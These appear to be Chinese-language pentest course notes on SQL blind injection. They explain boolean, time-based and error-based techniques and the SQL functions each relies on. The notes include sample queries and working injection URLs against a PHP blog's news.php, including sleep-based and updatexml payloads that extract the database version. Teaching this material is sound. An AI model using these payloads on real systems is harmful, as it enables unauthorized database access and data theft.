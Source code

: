 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676230-fffc28e5-eec4-482b-9fed-1197e5e04fa6.png)

```plain
#知识点：
1、明确查询方式注入Payload
2、明确查询方式注入产生功能
3、明确SQL盲注延时&布尔&报错

#详细点：
盲注就是在注入过程中，获取的数据不能回显至前端页面。
此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。
解决：常规的联合查询注入不行的情况
我们可以知道盲注分为以下三类：
-基于布尔的SQL盲注-逻辑判断
regexp,like,ascii,left,ord,mid
-基于时间的SQL盲注-延时判断
if,sleep
-基于报错的SQL盲注-报错回显
floor，updatexml，extractvalue
https://www.jianshu.com/p/bc35f8dd4f7c

参考：
like 'ro%'            #判断ro或ro...是否成立 
regexp '^xiaodi[a-z]' #匹配xiaodi及xiaodi...等
if(条件,5,0)           #条件成立 返回5 反之 返回0
sleep(5)              #SQL语句延时执行5秒
mid(a,b,c)            #从位置b开始，截取a字符串的c位
substr(a,b,c)         #从位置b开始，截取字符串a的c长度
left(database(),1)，database() #left(a,b)从左侧截取a的前b位
length(database())=8  #判断数据库database()名的长度
ord=ascii ascii(x)=97 #判断x的ascii码是否等于97

SQL查询方式注入
select,insert,update,delete,orderby等

基本知识本地测试
select * from member where username like 'vi%';
select * from member where username regexp '^x';
select * from member where id=1 and sleep(1);
select * from member where id=1 and if(1>2,sleep(1),0);
select * from member where id=1 and if(1<2,sleep(1),0);
select * from member where id=1 and length(database())=7;
select * from member where id=1 and left(database(),1)='p';
select * from member where id=1 and left(database(),2)='pi';
select * from member where id=1 and substr(database(),1,1)='p';
select * from member where id=1 and substr(database(),2,1)='i';
select * from member where id=1 and ord(left(database(),1))=112;
```

- SQL-盲注&布尔&报错&延时

```plain
#SQL-盲注&布尔&报错&延时
PHP开发项目-输出结果&开启报错
基于延时：都不需要
/blog/news.php?id=1 and if(1=1,sleep(5),0)
基于布尔：有数据库输出判断标准
/blog/news.php?id=1 and length(database())=7
基于报错：有数据库报错处理判断标准
/blog/news.php?id=2 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

知识点：
1、查询方式增删改查四种特性决定，部分是不需要进行数据取出和显示，所以此类注入基本上需要采用盲注才能正常得到结果（黑盒测试可以根据功能判断注入查询方式）如：增加，删除，更新不会显示数据
2、查询方式增删改查四种特性决定应用功能点（会员注册，删除新闻，修改文章等）
在执行SQL语句后，获取的数据：1.输出显示 2.不输出显示
```